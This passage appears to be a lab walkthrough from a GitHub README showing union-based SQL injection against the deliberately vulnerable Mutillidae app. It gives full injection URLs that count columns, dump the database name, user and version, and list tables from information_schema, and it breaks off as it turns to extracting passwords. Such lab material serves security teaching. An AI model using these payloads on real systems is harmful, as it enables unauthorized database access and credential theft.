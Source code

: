 The browser url of this info page need to be modified with the url as below: http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27order%20by%206%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Roselineb/sqlinjection/assets/128909895/683b7e0b-3fda-4491-8980-0cd9111c2332)
After adding the order by 6 into the existing url , the following error statement will be obtained:

![image](https://github.com/Roselineb/sqlinjection/assets/128909895/2a90e47e-2d06-4565-a5b1-94ed2183b6ce)
When we ordered by 5, it worked and displayed some information. It means there are five columns that we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

![image](https://github.com/Roselineb/sqlinjection/assets/128909895/eaaac0d5-2329-4581-9807-2fd1a5b2a6b5)
As it is having 5 columns the query worked fine and it provides the correct result

![image](https://github.com/Roselineb/sqlinjection/assets/128909895/f3fefa89-a4a7-4aab-9506-80f873b1e481)
Instead of using the "order by" option, let’s use the "union select" option and provide all five columns. Ex: (union select 1,2,3,4,5)

![image](https://github.com/Roselineb/sqlinjection/assets/128909895/bf0c8552-9d4c-43b7-b9dc-64fe1f6e41cb)
As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information. 

![image](https://github.com/Roselineb/sqlinjection/assets/128909895/9aef9866-ae9a-45d0-b5d4-f3fb18b847ea)
Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/Roselineb/sqlinjection/assets/128909895/6672639c-298e-4a20-b6e4-925676ff4768)
The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=praveen%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Roselineb/sqlinjection/assets/128909895/c21c9886-f8be-4a0c-b7e2-462f191cf4c5)
The url once executed will retrieve table names from the “owasp 10” database. ##Extracting sensitive data such as passwords

When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”
